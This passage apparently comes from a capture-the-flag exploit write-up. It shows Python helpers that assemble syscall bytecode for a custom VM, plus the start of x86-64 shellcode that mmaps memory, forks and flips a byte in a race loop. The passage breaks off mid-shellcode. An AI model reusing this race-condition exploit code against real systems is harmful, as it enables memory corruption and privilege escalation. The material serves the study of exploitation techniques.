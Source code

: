 ```python
    return buffer

def open_file(file_addr, flags=0, mode=0):
    buffer = b''
    buffer += write_register(register=Regs.a, value=file_addr)
    buffer += write_register(register=Regs.b, value=flags)  # O_RDONLY = 0 ; O_RDWR = 2
    buffer += write_register(register=Regs.c, value=mode)  # mode, Irrelevant
    buffer += syscall(Syscalls.OPEN, out_reg=Regs.a)
    return buffer

def read_to_memory(fd, offset, count):
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer

def write_from_memory(fd, offset, count):
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def store_string(addr, string):
    assert(type(string) == bytes)
    buffer = b''
    for i, b in enumerate(string):
        buffer += write_register(Regs.a, b)
        buffer += write_register(Regs.b, addr + i)
        buffer += store_in_memory(addr=Regs.b, register=Regs.a)
    return buffer

SHELLCODE = '''
user_shellcode:
mov rdi, 0
mov rsi, 0x1000
mov rdx, 3
mov r10, 1
mov r8, 3
mov r9, 0
mov rax, 9
syscall
mov [rip + saved_mmap_addr], rax

mov rax, 57
syscall
cmp rax, 0
jne parent

child:
mov rbx, [rip + saved_mmap_addr]
add rbx, 72
mov cl, 0x10
mov dl, 0x20

race_loop:
mov byte ptr [rbx], cl
mov byte ptr [rbx], dl
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html